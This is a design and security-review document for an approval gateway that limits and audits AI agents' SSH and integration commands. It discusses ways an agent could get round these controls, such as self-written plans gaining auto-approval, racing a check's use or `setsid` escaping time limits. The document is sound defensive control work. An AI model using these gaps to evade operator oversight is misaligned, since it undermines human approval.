After AD1–AD3, the gateway bash (`eshu-gateway.sh` and both installers) goes to
the security reviewer (§ 2.6a).

**Code round 2 (feature reviewer, 2026-11-10, `f75b40a`): approved; to the
security reviewer for the gateway bash.** AD1: 124 or 137, with the
elapsed-time guard, and tests both ways. AD2: the cause was confirmed from the
Actions log (Ubuntu 26.04 image, uutils `timeout`); the sandbox now stubs
`timeout --version`, a non-GNU test keeps the refusal, the setup note is
written, and CI is green. The `ubuntu-24.04` pin is on `feature-roadmap` as
`6d58006` (pushed over SSH, so no `workflow`-scoped token was needed); drop
the local `chore/ci-pin-ubuntu-24-04`. AD3: the stray file is removed
(`4a86f81`). Nit, optional: `case "$TIMEOUT_VERSION" in *'GNU coreutils'*)`
avoids the last pipe completely.

**Security reviewer — gateway bash (2026-11-10, `90c4df7` + `6b30707`):
approved on two small conditions (AF1, AF2). The feature reviewer checks them
with their tests; they don't need to come back to me.**

What is right:
* **Run limits:** three parse results, `min()` per field, and the first
  limit sticks.
* **The capability:**
  * it is GNU `timeout` only and reported on every request;
  * a limit on a gateway without GNU `timeout` is refused, not half-applied;
  * uutils and BusyBox report none, so their unattended rows stay pending.
* **W1:** one `run_dir_safe()` covers the F5, F12 and F19 files. The probe is
  created only after the check passes, and an unsafe directory refuses a
  limited run.
* **The pipeline:**
  * `cap_raw` bounds the raw stream before `sed` sees it;
  * the probe holds only sanitized bytes, at most `bytes + 1`;
  * the exit code comes from `PIPESTATUS[0]`;
  * a time stop is 124 or 137 plus the elapsed-time guard, and "cut" is
    decided by the probe's size, never by scanning the output.
* **L3:** the MCP branch claims by id in the same round trip, checks the
  command and ticket owner, and exits through `finish`. The poller never
  gets these rows.
* **N-b:** the three installers embed the script byte for byte, and the dev
  installer now has F12 and F19.

Conditions:
* **AF1 (must): a row marked unattended with no usable limit must refuse,
  not run without a limit.**
  * `parse_run_limit` reads a missing or `null` `run_limit` as "absent",
    which correctly means "a human approved this".
  * But `/api/ticket` sends `run_limit: null` beside `unattended: true` when
    the stored limit does not parse. `/api/request_status` drops the field
    in the same case (`except …: pass`) while still sending
    `unattended: true`.
  * Either way the gateway runs without a limit, though the dashboard has
    said this is an unattended row.

  Fix, on both sides:
  * the gateway's parser answers `invalid` when `unattended is True` and the
    limit is not a valid dict;
  * the poll loop also runs `parse_run_limit "$CLAIM_BODY"` after a claim,
    as the MCP branch does;
  * both endpoints send a marker the gateway refuses (an empty dict, for
    example), never `null` and never nothing.

  Test: an unattended row whose stored limit is corrupt is refused on the
  MCP path and on the poll path.
* **AF2 (must): do the range check in Python.**
  * Python prints any size of integer. Bash `[ -lt ]` on a value over 2^63
    fails with an error, and inside `if`/`||` that error counts as false. So
    `[ "$secs" -lt 5 ] || [ "$secs" -gt 300 ]` lets a huge value through as
    `valid`.
  * GNU `timeout` treats a huge duration as effectively unbounded.
  * Only the dashboard can send it, but L2's rule is "unparsable refuses".

  Fix: check `5 <= s <= 300` and `65536 <= b <= 8388608` in the Python
  that already parses the JSON, and keep the bash checks as a second layer.

  Test: `seconds: 10**30` is refused.

Should, on the next gateway-bash branch:
* **AF3:** the session-signature check (around line 848) is still
  `python3 -` with `SESSION_KEY` and `SESSION_KEY_PREV` passed in **argv**.
  * Make it `python3 -I`, which the "all interpreters are `-I`" claim needs.
  * Have Python read `/etc/eshu-session-key` and the `.prev` file itself.
    A root process's argv can be read by every local user through `/proc`,
    so the session key is exposed for the length of the check. This is from
    before F19, but the line is being touched anyway.
* **For the record:** a process that calls `setsid` still escapes the time
  limit (the byte limit still holds). No read-lane verb does this, as
  recorded in the design review.

_(Moved here from § 9 at the merge, 2026-11-11.)_ **Design round 3 (feature reviewer, 2026-11-10): approved, with one fix (Q3).**
Q1's redraw on `capture_tail` is right. So is the separate cut probe, which
holds sanitized bytes only, stays bounded at `bytes + 1` and is
trap-removed. Q2's `next_step` for unattended rows, read from the
`unattended` column rather than the reason text, is right too.

* **Q3 (must): the MCP branch must not `tee` to an unbounded file.**
  `… | cap_visible | tee "$ESHU_MCP_CAP" >/dev/null` has no cap when no
  `run_limit` is set, which is every human-approved MCP run. A large output
  would grow `ESHU_MCP_CAP` on `/run` without limit. The security reviewer
  asked for the same thing on the CI fix: F12's MCP capture moves to the
  ring, with the 16385 as a parameter. Use `capture_tail "$ESHU_MCP_CAP" 65537`
  here, so the envelope's 64 KiB rule still holds, with stdout to
  `/dev/null`. Add a test: 2 MiB of MCP output with no run limit leaves a
  capture file of at most 65537 bytes.
* **Build on the buffering fix.** `fix/stream-unbuffered` (B1–B4) puts
  `stdbuf -oL` on `sanitize`, and mawk gets `-W interactive`. F19's pipeline
  uses that `sanitize` as it is (B4).

After Q3, to the security reviewer for § 3 and § 4.

---

## Chunks F21–F26 — Safer changes, change history, agent trust

Added 2026-11-10 from a separate review chat. They go ahead of the
local-model work (F17 and the parked F20), which is now an experiment and
comes last. Shared rules:

* **Every read goes through `core/read_policy.py`** (§ 2.6a), as in F14–F16.
* **Anything that runs with no human click** is an unattended run. It gets
  F19's limits, and it runs only on a gateway that reports `run_limits: v1`.
  On any other gateway it does not run, and the card says "not run", never
  "passed".
* **"Operator-approved exact bytes": the security reviewer's decision on
  F15 AG1 (2026-11-10).** Under `ssh_mode=approval`, a plan item may be
  claimed only when **server code** built its plan:
  * the `origin` column is set by server code only, defaults to `agent`, and
    no agent field can set it;
  * agents cannot change the plan's items;
  * each item names one host;
  * the claim checks the session's owner;
  * freeze, Zero-Trust and the blocklists still win.

  What matters is who wrote the plan, not who approved it. This covers F15
  probes. F16 recipe steps keep claiming by request id. **F22's check is not
  covered:** it runs with no agent call and no human present, so it is an
  unattended run under F19's limits. F22's design review decides whether it
  gets an origin at all.
* **No live data** in tests or fixtures (§ 2.5): TEST-NET addresses, made-up
  vmids and names.

---

## Chunk F21 — Snapshot before approve · slug `snapshot-approve` · dashboard + Proxmox integration · **design first + security reviewer sign-off**

### Goal

When a write is about to run inside a Proxmox guest, the operator can choose
"snapshot, then run". If it goes wrong, one click rolls the guest back.

### Design (to confirm in the design note)

* **When it is offered.** Only on a pending write request (F1 has at least
  one write or unknown step) whose real target is a single Proxmox guest:
  * the F7 inner target is `pct exec <vmid>` / `qm guest exec <vmid>` on a
    gateway that is a Proxmox node; or
  * the gateway itself is a guest. F14's inventory maps the gateway's IP to
    exactly one Proxmox row (`source='proxmox'`, a `vmid`). Zero or several
    matches mean no offer, with the reason shown.

  The guest's node comes from `get_cluster_resources`, read through
  `read_policy`. Proxmox host commands with no inner target get no offer: a
  snapshot would not cover them.
* **New Proxmox tools, not agent tools.** `snapshot_create`, `snapshot_list`,
  `snapshot_rollback` and `snapshot_delete` cover `qemu` and `lxc`:
  * `POST/GET /nodes/{node}/{type}/{vmid}/snapshot`;
  * `POST …/snapshot/{name}/rollback`;
  * `DELETE …/snapshot/{name}`.

  They are seeded `internal: 1`. The MCP server never lists them, and
  `run_tool` refuses them for every agent, including through a hidden-tool
  call and the generic integration proxy. Only dashboard code paths run
  them. A test calls each one as an agent and gets a refusal.
* **"Snapshot, then run".** A second approve button.
  1. The dashboard creates the snapshot:
     * the name is `eshu-r<request id>-<unix ts>`;
     * the description is `eshu request #N` plus the scrubbed first 80
       characters of the command;
     * `vmstate` is 0.
  2. It polls the task's UPID until it finishes, with a time limit (default
     120 s).
  3. Only after the task succeeds does it approve the request.
  4. If the snapshot fails or times out, the request stays **pending**, the
     error is shown, and the operator can still approve without one. A
     failed snapshot never approves anything.
* **Recorded.** A new `snapshots` table:
  * `request_id` / `plan_id`, `node`, `type`, `vmid`, `name`;
  * `created_at`, `expires_at`;
  * `state`: `active|rolled_back|deleted|expired|failed`;
  * the operator.

  The approval card and the request sidebar show it, with "Roll back" and
  "Delete".
* **Rollback and delete are operator-only.**
  * A session-authenticated dashboard user only, CSRF-checked like every
    other operator POST; never an agent token.
  * A confirm dialog names the guest, says that the guest's disk returns to
    the snapshot time, and that a running LXC is stopped and started again.
  * Each action is audited.
  * Before acting, the dashboard re-reads the snapshot list and checks that
    a snapshot with that name and the eshu description still exists on that
    vmid. This guards against vmid reuse (the F16 V4 lesson).
* **Expiry.** A background job deletes snapshots past `expires_at`:
  * the default is 72 h, and the setting ranges over 1 h–14 d;
  * it deletes only rows in its own table that pass the same re-check, so
    it can never delete a snapshot it did not make.

  Thin-pool space: if `list_storages` reports the guest's storage above 85 %
  used, the offer is shown with a warning (or hidden, if the design note
  prefers).
* **Freeze.** While frozen, no approval happens, so no snapshot is created.
  Whether rollback stays available during a freeze (it is the recovery
  button) is for the security reviewer to decide in the design note.
* **Permissions.** The Proxmox token needs `VM.Snapshot`, and
  `VM.Snapshot.Rollback` on PVE 8. A missing privilege shows on the
  integration page as "snapshots unavailable", never as a failed approval.

### Tests to add (outline)

* The offer:
  * an inner-target `pct exec` gets it;
  * a gateway mapped to one guest gets it;
  * zero or two inventory matches, or a Proxmox host command with no inner
    target, do not.
* Snapshot failure leaves the request pending; approval follows only a
  finished task.
* The four tools are refused to agents on every path.
* Rollback and delete:
  * an agent token, a missing CSRF token, or a snapshot that is gone or
    renamed on the vmid each give a refusal and touch nothing;
  * a reused vmid is caught by the re-check.
* Expiry deletes only its own expired rows.
* A stubbed Proxmox API throughout.

### Compat impact

Additive: a table, settings, and seeded internal tools. Integrations without
the new tools show no offer. No gateway change.

### Acceptance criteria

The design note is signed off by the security reviewer; the tests above
pass; on a test guest, snapshot → run → roll back → the guest is back to its
snapshot state; and an expired snapshot is deleted by the job.

### Implementer notes

_(implementer)_

### Reviewer notes

_(reviewer)_

---

## Chunk F22 — Changes carry a check · slug `change-checks` · dashboard + MCP · **security reviewer signs off the unattended check**

### Goal

Each change in a plan can say how to tell that it worked: "the unit is
active", "port 443 is listening". Eshu runs that check right after the
change and stops the plan if it fails.

### Design (to confirm in the design note)

* **A plan item may carry one `check`.** It is proposed with the item, shown
  on the plan card, and approved with it. There are two kinds:
  * `{kind: 'ssh', command}`: run on the item's host. It must pass
    `is_read_ssh` when proposed **and** again when it runs. Success is exit
    code 0.
  * `{kind: 'tool', integration, tool, args, expect: {path, op, value}}`:
    it must pass `is_read_integration_call`. The rest is fixed:
    * `path` is a dotted JSON path of at most 4 parts;
    * `op` is one of `eq|ne|in|lt|gt`;
    * `value` is a string or number.

    It is never a regex and never prose parsing.

  Optional `wait_s` 0–30 and `retries` 0–3 cover services that take a moment
  to start.
* **When it runs.** The item's command reports its exit code (F5; this works
  with `exit-only` capture). Then:
  * a non-zero exit stops the plan with no check;
  * an exit of 0 schedules the check.
* **Who runs it.**
  * An `ssh` check runs through the F12 runner under the item's agent, with
    reason `plan-check:<plan>:<item>:<token>`, and with F19's limits.
  * It is covered by the "operator-approved exact bytes" rule (see the
    shared rules; F15's AG1) and needs no second click.
  * On a gateway without `run_limits: v1`, the check is "not run", and the
    plan pauses for the operator (not "passed").
  * A `tool` check runs dashboard-side through `run_tool`'s read path.
* **Result.** It is stored per item as `check_state`:
  `passed|failed|not_run|skipped`, with the exit code or the compared value,
  never the output.
  * The session card and the plan view show it per change.
  * A failed or not-run check stops the plan: the remaining items can no
    longer be claimed (the plan status is `stopped`, and it is audited).
  * The agent sees this in `session_plan` / `session_summary`, with the
    failed check named.
* **No new write path.** A check can only read. If it is not a read when it
  runs (the policy changed, or the tool was reconfigured), it is `not_run`
  and the plan stops.

### Tests to add (outline)

* A write as a check is refused at proposal.
* A check that stops being a read before it runs ends as `not_run`, and the
  plan stops.
* Pass and fail by exit code, and by each `op`.
* A failed item stops the plan before its check runs.
* A failed check makes the next item unclaimable through the real
  `receive_request`.
* A gateway without `run_limits` gives `not_run`.
* `wait_s`/`retries` are bounded, and an out-of-range value is refused.
* The check is not run twice after a dashboard restart.

### Compat impact

Additive: optional columns on `session_plan_items` (`check_json`,
`check_state`, `check_detail`). Plans without checks behave exactly as now.

### Acceptance criteria

The tests above pass; the security reviewer has signed off the unattended
check path; and on a test gateway, a plan that restarts a unit with an
`is-active` check shows "passed", and one with a broken unit stops at that
item.

### F22 design note — Changes carry a check

**Status: design note only.** No code on this branch. It needs the security
reviewer's sign-off on the *unattended* part: a check runs with no human
watching it, and this note says who may run it, under which identity, with
what limit, and why it cannot become a second write path. §11 lists the two
questions for that reviewer. **Round 1's AN1–AN5 and the
security review's AR1–AR7 (with the output nit) are folded** (§13 and the
Round 3 section map them to the sections); the feature reviewer checks
AR5–AR7 and the security reviewer re-reads §3 and §4.

#### 1. What it adds, and why this needs a security decision

A plan item may carry one **check**: a read that tells the operator (and the
agent) whether the change worked. The item and its check are approved
together, in one click; after the item's command reports exit 0, Eshu runs
the check, records `passed|failed|not_run|skipped` on the item, and **stops
the plan** on anything but `passed`.

The security decision is precise and worth stating plainly:

* **F15's AG1 rule does not cover this.** AG1 says that in `approval` mode a
  command can only be auto-approved from a plan whose `origin` is `probe`,
  and that only server code writes an origin. A check is not a probe: it is a
  different caller, on a different schedule, for a different reason.
* So without a decision, a check would either need **a second prompt** (a
  fresh card for every check) or it would run as an *agent* plan item, which
  AG1 forbids and which would be a hole: an agent that can put a "check" on
  an item could get any read command auto-approved under a plan it wrote.
* This note asks for the narrow answer: **a third origin, `check`**, written
  only by dashboard code, with one item, one host, one exact command, bounded
  uses, an unattended row and F19's run limit. §3 and §4 are the argument.

#### 2. When a check runs

The check is part of the item. The sequence for one item is:

1. the operator approves the plan (the card shows each item **and its
   check**, so the check's exact bytes are part of the approved text);
2. the item's command is claimed and runs exactly as today (F3/F12);
3. the gateway posts the result (F5). **Non-zero exit → no check**:
   `check_state='skipped'`, the plan stops with the item's own failure;
4. **exit 0 → the check is dispatched** (§3, §5);
5. the result is written to the item and the plan either continues or stops
   (§8).

**AR2 — in `approval` mode the link is made by server code.** Under
`force_jit` an agent plan's items are not claimable (AG1), so the item's
command arrives as an ordinary card. The check is still tied to it, and
nothing the agent sends can make that link:

* when `receive_request` creates the request row, it matches it against the
  session's approved plans: same session, the item's `host` equal to the
  request's target (a `*` item never matches — a check needs one exact host),
  the **whole command equal**, an item that carries a check and has no
  `check_request_id` yet. A match stamps `requests.plan_item_id` and the
  item's `check_request_id` in the same transaction. A second request with the
  same bytes finds the item already linked and gets no check;
* the card renders the check under the command — the exact bytes, `expect`,
  `wait_s`/`retries` — so the human approving the write sees exactly what
  will follow it;
* the F5 hook reads `plan_item_id` from the request row it just saved, never
  from the gateway payload. A request without the stamp dispatches no check,
  and a plan or item id in the agent's arguments is ignored;
* if the bytes are auto-approved by a policy instead of becoming a card (the
  read lane, a window), the link is still server-made and the check runs: the
  plan card showed it when the plan was approved.

So in `approval` mode the human approves the write and the check together on
the card, and a check cannot be attached to a command the operator did not
see with it. `requests.plan_item_id` is a nullable column (§10).

A duplicate F5 post cannot dispatch twice: `request_results` has
`request_id` as its primary key and `save_result` is `INSERT OR IGNORE`, so
the second post returns `False`; the hook dispatches only on the `True` (the
first result). The item's `check_state` is written ahead of the dispatch as
well (§9).

#### 3. How the check is claimed without a second prompt

**Decision: the check gets its own server-side plan, `origin='check'`, created
already approved.**

**3.1 The check plan (AN2).** `core/checks.py` (new, dashboard-side, the only
writer) creates it with `create_plan(..., origin='check', internal=CHECK_INTERNAL)`:

* one item: `host` = the item's host, `command` = the check's exact command (or
  the tool call), `max_uses = retries + 1`;
* `status='approved'` from the start, **inheriting the parent plan's
  approval**: `decided_at` = the parent's `decided_at`, `decided_by` = the
  parent's `decided_by`, `parent_plan_id` = the parent, and `until` =
  `min(now + 10 min, the parent's until)`. A check plan is never approved by a
  human and never outlives the plan whose approval it borrows;
* `note` = `check for plan #P item #I`, so History shows what it belongs to.

**AR3 — one item, exact bytes, one host.** A check plan has exactly one item,
enforced on read as well as on write: any other count is a refusal, not a
claim. Its claim compares the whole command for equality on that one host
(`host = ? AND command = ?`) — no pattern, prefix or `*`, whatever F3 allows
for agent-origin items. `add`, `edit` and `remove` are closed at every agent
path: a check plan exists only through `CHECK_INTERNAL`, and F3's edit routes
refuse anything that is not `proposed`. The check is immutable after
creation, exactly like the item it belongs to.

The inheritance is the reason the check needs no prompt, so it is gated on the
caller: `create_plan` keeps `proposed` for every other caller and refuses
`origin='check'` unless the caller passes a module-private
`CHECK_INTERNAL` sentinel (`db/session_plans.py`) that only `core/checks.py`
imports. A boolean could be forwarded from stored data; an object cannot.

**AN2 — it is ended with its parent.** Denying, ending or stopping the parent
plan ends its check plans in the same transaction (`_decide` and the stop path
in §8 cascade on `parent_plan_id`), so a check plan cannot outlive the
authority it borrowed, and a check dispatched after the parent ended claims
nothing.

**3.2 The claim (AN4).** The worker calls `ssh_exec(...)` (§4). In `approval`
mode the gateway asks `/api/request` with `force_jit=true`, and
`receive_request` then:

* computes `plan_origins = ('probe',)` as today, and additionally
  `check_origins = ('check',)` **only when `payload.run_limits == 'v1'`**;
* tries the check-origin claim first (it is the narrower one), then the probe
  claim;
* the claim is AG1's atomic statement: `uses < max_uses`, the plan `approved`
  and inside its TTL, the session's owner = the calling agent, and the reason
  `plan-check:<plan>:<item>:<token>`, whose last field must equal the item's
  stored `check_token` (AR6).

**AN4 — a gateway that cannot limit never gets the claim.** A request without
`run_limits: v1` does not reach `claim_plan_item` for the check origin at all,
so it consumes no use and creates no approved row: the item's `uses` is
unchanged, the request falls through to a card, `ssh_exec` returns `pending`,
and the worker records `not_run` / `check_no_limits` (§5).

**AR6 — the claim is bound to the worker's attempt.** The reason the worker
sends is `plan-check:<plan>:<item>:<token>`, where `<token>` is the item's
`check_token`. `receive_request` claims a `check`-origin item only when that
token equals the item's stored value; anything else falls through to a card
and consumes nothing. The F5 handler writes the token when it sets `pending`,
and the token is never exposed (not in `session_plan`, not in the plan view),
so an agent that races the same bytes cannot spend the check's use — its
request carries no token. Without this binding the race could only force
`check_unclaimed`; with it there is no race.

**AN1 — the order of items.** `_claim_candidate` also refuses a **later** item
of a plan while an **earlier** item of that plan still has an open check:

```sql
AND NOT EXISTS (
  SELECT 1 FROM session_plan_items b
  WHERE b.plan_id = i.plan_id AND b.removed = 0 AND b.id <= i.id
    AND b.check_json IS NOT NULL AND b.uses > 0
    AND (b.check_state IS NULL OR b.check_state IN ('pending', 'running'))
)
```

An item with a check is *open* from the moment its command is claimed until its
check is decided. **The comparison is `b.id <= i.id`, so the item's own next
use waits for its own check (AR1):** a two-use write cannot run again while
the check of its first run is open. `passed` releases the next item; `failed`
and `not_run` stop the plan (§8); an item with no check never blocks. Without
this rule the check would be dispatched after the fact and the agent could
have claimed the next item during it, so "a failed check stops the remaining
items" would be true only of the items that had not already run — and with
`<` alone the item's own next use slips through the same gap.

**3.3 Why no second prompt, and what bounds the attempts.**

*No second prompt:* the operator approved the check's exact bytes as part of
the item — the card renders the check command or the tool call under the
command, and approving the plan approves it. The check cannot be edited after
approval (the item is immutable; a change is a new plan), it must pass
`is_read_ssh` at proposal *and* at run (§6), and it runs under a limit (§5).
Asking again would double the approvals for every change and stall the plan at
the moment the operator has moved on — and the second card would show the same
bytes the first one did.

**AN5 — one counter bounds the attempts.** In `normal` mode the gateway does
not ask the dashboard, and an allowlisted command may never post a request at
all, so a use count cannot bound the attempts there — and a self-claim would
spend two uses for one attempt when `receive_request` also claims. The bound is
therefore **`check_attempts <= retries + 1` on the parent item**, checked by
the worker before each attempt and incremented after it. `max_uses` stays the
*claim-side* limit only, and the worker never marks the check item used
itself.

#### 4. Who runs it, and under which identity

* **ssh check:** `ssh_exec(host, command, session_id=<the plan's session>)`
  from the post-result hook, with `set_current_agent(<the plan's agent>)` for
  the duration. So:
  * the agent's own SSH policy applies again at run time (host allowlist,
    `read_only` mode, session rules) — a tighter policy can only refuse, it
    can never widen;
  * the runner signs with that agent's derived key, and the gateway records
    `agent=<the plan's agent>`;
  * the identity is **the agent**, not the operator. The operator approved
    the bytes; the run is attributed to the plan it belongs to, with
    `unattended=1` and the reason naming the plan, the item and `check`.
* **tool check:** dashboard-side `run_tool(integration, tool, args)` as the
  same agent, with the plan's `session_id` and reason
  `plan-check:<plan>:<item>:<token>`. It is a read, so `run_tool`'s read path
  executes it immediately and writes the normal read call row
  (`agent=<the plan's agent>`). It needs no gateway and no `run_limits`.
* **AR4 — the agent's standing is re-checked before every attempt.** The plan
  supplies the approval, but the run is the agent's, so the worker re-derives
  its standing each time, not once at dispatch:
  * the token row still exists and `revoked = 0` (`agent_tokens`, found by the
    session's agent name; the token is re-checked, never a cached copy);
  * the mode is read again from the agent's policy (`get_agent_policy` and its
    `ssh_mode`; a missing row means `approval`) — the same value the MCP
    surface uses;
  * a tripwire freeze that names this agent or this session is the same
    refusal. F24 has not shipped; when it does, the naming data lives in the
    freeze it writes and is read here the way §10 reads the operator freeze.
    An ordinary operator freeze is **not** a refusal: the check is a read, and
    reads keep working (§10).

  Any failure is `not_run` with `check_agent_inactive`, nothing is sent, and
  the plan stops (§8). A retry does not skip the check: it runs before every
  attempt.

* **Never the operator's session, never an agent token.** There is no MCP
  tool for a check and no route: an agent proposes one with the item, and
  that is the only way one is created.

#### 5. F19: `run_limits: v1` is required, or the check is `not_run`

The claimed row for an ssh check is created **unattended and limited**, not
as the plain approved row a probe claim creates:

* `unattended=1` and `run_limit` = the operator's F19 defaults (60 s /
  1 MiB), the same `get_run_limit_settings()` the read lane uses;
* the request the gateway sends reports `run_limits`; if it is **not `v1`**,
  the check is **`not_run`** with reason `check_no_limits`, the row is left
  pending (never approved), the plan **stops** (§8) and `check_no_limits` is
  audited. Never `passed`: an older gateway would run the check unbounded,
  and a bound we cannot enforce is not a bound;
* **no wrapper (AR5).** The worker does not run `timeout 30 <cmd>`: the bytes
  that run must be the bytes the operator approved and the parser read. The
  row's `run_limit` seconds are set to `min(30, the operator's default)`
  instead, and the gateway's own limiter enforces them;
* if the gateway reports a limiter stop (`limit: time|bytes` on the result,
  F19) the check is **`not_run`** with reason `check_limit`: a cut command
  cannot tell us whether the state is good, so it is not a failure and not a
  pass.
* `ssh_exec` coming back `pending` — the AN4 refusal, or a plain card — is
  `not_run` with `check_no_limits` when the gateway reported no capability and
  `check_unclaimed` otherwise, never `passed`.

The tool check has no row and no gateway, so this section does not apply to
it; it is bounded by its own dashboard timeout (§7).

#### 6. The read policy is checked again at run time

Both kinds re-check at run time, not only at proposal:

* **ssh:** `is_read_ssh(cmd_breakdown(command))` must still pass. F12's
  runner refuses a write for a `read_only` agent, but a check must be a read
  for **every** agent, so the check gate is its own: if it fails now (the
  command's parse changed, or a rule moved), the check is `not_run` with
  `check_not_a_read`, nothing is sent, and the plan stops.
* **tool:** `is_read_integration_call(tool, transport, args)` must still
  pass; a tool reconfigured as a write, disabled or deleted gives `not_run`
  with `check_not_a_read` / `check_tool_missing` / `check_tool_disabled`.

The proposal-time refusal is unchanged: a write as a check is refused when it
is proposed, with `check_not_a_read`, before a plan exists.

#### 7. The `expect` comparison, and the bounds

**`expect` is structured, never a regex and never prose.** For a tool check
it is `{path, op, value}`:

* `path`: one to four dotted parts, each a key name (`[A-Za-z0-9_-]+`) or a
  decimal list index. No wildcards, no brackets, no `..`. The walk only
  follows dicts and lists; a path that does not resolve is `not_run` with
  `expect_path_missing` — a missing value means "we could not tell", which is
  not "the change did not work";
* `op`: `eq|ne|in|lt|gt`.
  * `eq`/`ne`: both sides normalised as JSON scalars (a number stays a
    number, a string stays a string, `true`/`false` as booleans); a string and
    a number are **not** coerced into each other — a mismatch is `failed`
    with both values shown;
  * `in`: the resolved value must be a list, and the expected value must be
    one of its members (same normalisation). A non-list is `not_run`
    (`expect_not_comparable`);
  * `lt`/`gt`: both sides must be numbers (a numeric string is not one);
    otherwise `not_run` (`expect_not_comparable`);
* `value`: a string or a number only. A bool, list, dict or `null` is refused
  at proposal (`expect_value_type`).

Stored per item: `check_state`, `check_observed` and `check_expected`
(capped at 200 characters each, scrubbed), `check_exit_code`,
`check_attempts`, `check_at`, `check_reason` (the code). **The item never copies the
output**: an ssh check's output is stored in its F5 result row exactly like
any other request's (F5's cap, scrubbing and retention), and a tool check's
body lives in its read call row; the item keeps only the observed value, and
only for a tool check.

**Bounds:** `wait_s` 0–30 and `retries` 0–3, validated at proposal and
re-validated at run (the stored values are trusted only after that). The
wait is applied before the first attempt, and between attempts. The worst case
is `(retries + 1) × (wait_s + timeout)` — 4 × (30 + 30) = 240 s for an ssh
check, which is inside a plan's TTL and is bounded again by `max_uses =
retries + 1`. A retry only happens on `failed`; `not_run` never retries
(there is nothing to retry: the check could not run).

#### 8. How a failed or `not_run` check stops the plan

* `check_state` is written on the item. On `failed` or `not_run`:
  `session_plans.status='stopped'`, `stopped_at`, `stopped_reason`
  (`check_failed:<item>` / `check_not_run:<item>:<code>`), and an audit row
  `plan_stopped` naming the plan, the item and the state.
* `_claim_candidate` only matches `p.status='approved'`, so a stopped plan's
  items are **unclaimable**: the next item's command, arriving through the
  real `receive_request`, falls past the plan branch to the normal pending
  path and becomes a card. A check that is still open blocks the next item the
  same way while it runs (AN1, §3.2), so the stop lands before anything after
  it can run. That is the point — the plan's authority ends at
  the failed check, and nothing after it runs without a fresh human decision.
* The agent sees it in `session_plan` / `session_summary`: the plan is
  `stopped`, the item carries `check_state` and the reason code, and the
  failed check is named.
* `passed` continues the plan; the next item is claimed normally. `skipped`
  (the item's own command failed) also stops the plan, with the item's exit
  code as the reason, and no check is dispatched.
* A plan that was denied, ended or expired while the check ran is not
  "stopped" by the check — it is already over, and the check result is
  recorded on the item without changing the plan's status.

#### 9. Off the request thread, and restart safety

**AN3 — the check never runs in the F5 handler.** `/api/exec-result` is the
gateway's own POST. Running `ssh_exec` plus waits and retries there (up to
240 s, §7) would hold that POST open past its timeout and tie up a worker. So:

* the handler writes only `check_state='pending'` (with `check_at` and
  `check_token`) and returns;
* a **bounded background worker** does the rest: a `queue.Queue` with two
  threads started with the app, one check in flight per plan, and a small
  global cap (2). A full queue leaves the item `pending`, and the startup
  sweep (§ below) turns it into `not_run` rather than losing it;
* the worker sets `set_current_agent(<the plan's agent>)` and resets it in a
  `finally`, so a crashed attempt cannot leak an agent context into the next
  one;
* every state transition is a single conditional `UPDATE … WHERE
  check_state = <expected>` with the item's `check_token`, so two workers (or a
  restart that raced one) cannot both win.

A check never runs twice, through four independent guards:

1. **Write ahead.** `pending` is written and committed before the item is
   enqueued; the worker only picks up a row whose token it read.
2. **One token, one attempt.** A transition that finds a different token
   abandons the attempt (it belongs to a previous process), and no new attempt
   is started for it.
3. **The startup sweep covers `pending` and `running`.** An item left in
   either state older than the worst case (§7) becomes **`not_run`** with
   `check_interrupted`, the plan stops, and it is **never re-dispatched** — a
   check whose outcome the dashboard never saw is not evidence that anything
   passed. The operator can read what happened and approve a new plan.
4. **`check_attempts` (AN5).** The worker refuses to start an attempt when
   `check_attempts > retries`, so the retries the operator approved are the
   retries that happen, in `normal` mode too.

#### 10. Storage, UI and MCP

* `session_plan_items` gains: `check_json` (the approved check definition),
  `check_state`, `check_reason`, `check_exit_code`, `check_observed`,
  `check_expected`, `check_attempts`, `check_at`, `check_plan_id`,
  `check_item_id`, `check_request_id`, `check_token`. All nullable; an item
  without a check is exactly as today.
* `session_plans` gains `stopped` as a status value, plus `stopped_at`,
  `stopped_reason` and `parent_plan_id` (nullable columns; the last one is how
  a check plan names the plan whose approval it borrows, and how stopping or
  ending a plan finds its check plans).
* `requests` gains `plan_item_id` (nullable): the approval-mode link AR2
  stamps when the card is created. The F5 hook reads it from the row.
* The plan card (F3) shows each item's check under the command — the exact
  bytes, the `expect`, `wait_s`/`retries` — and its state after the run
  (`passed` in green, `failed`/`not_run` in red with the reason). The session
  card (F13/F6) and the sidebar show the same short line.
* **History (AR7).** A check plan is shown as **approved via plan #P** (from
  `origin='check'` and `parent_plan_id`), not as a fresh human decision; the
  parent's approver is named as the source. `check_token` is never exposed —
  not in `session_plan`, not in the plan view.
* `session_plan` (MCP) returns `check_state`, `check_reason`,
  `check_observed` and the plan's `stopped` state; `session_summary` says
  which item stopped the plan and why.
* Freeze is not a factor: a check is a read, and reads keep working during a
  freeze (F9). The *item* it follows was approved before the freeze.

#### 11. What the security reviewer must decide

1. **The origin.** A third server-only origin, `check`, accepted by
   `receive_request`'s `force_jit` claim beside `probe` (§3). The alternative
   is a second prompt per check, which this note argues against; if the
   reviewer prefers the prompt, the design changes only at §3 — the check
   would be an ordinary pending request, and the plan would wait for the
   operator.
2. **The row shape.** The claimed check row is `unattended=1` with the F19
   limit, and `not_run` when the gateway does not report `run_limits: v1`
   (§5). A probe claim creates a plain approved row; this one differs
   deliberately, because a check runs with nobody watching.

#### 12. Tests (outline)

* **Proposal:** a write as a check is refused (`check_not_a_read`); a
  five-part path, an unknown `op`, a `null`/list/dict `value`, and
  `wait_s`/`retries` out of range are refused; a valid ssh and a valid tool
  check are stored on the item.
* **The claim:** an approval-mode agent's check is claimed from the `check`
  plan (reason `session-plan:<p>:<i>:check`), the row is `unattended` with a
  limit, and the agent's owner check applies; an *agent* plan carrying a
  check item is **not** claimable (the origin narrowing); a second identical
  gateway request cannot take a second use.
* **Limits:** a gateway reporting no `run_limits` gives `not_run` and a
  `check_no_limits` audit, and the row stays pending; a limiter stop gives
  `not_run`.
* **The read re-check:** an ssh check whose command stops being a read is
  `not_run` and nothing is sent; a tool reconfigured as a write, disabled or
  deleted is `not_run` with its code.
* **`expect`:** `eq`/`ne` on strings and numbers (no cross-type coercion),
  `in` on a list, `lt`/`gt` on numbers, a missing path, a non-list for `in`,
  a non-number for `lt` — each with the right state and the stored
  observed/expected, and no output stored.
* **Stopping:** a failed item's check is `skipped` and no check runs; a
  failed check stops the plan, and the **next item's exact bytes through the
  real `receive_request`** come back pending (no plan claim); `not_run` does
  the same; `passed` lets the next item through.
* **Retries:** a `failed` check retries up to `retries` times and then stops;
  a `not_run` never retries; `max_uses` is `retries + 1`.
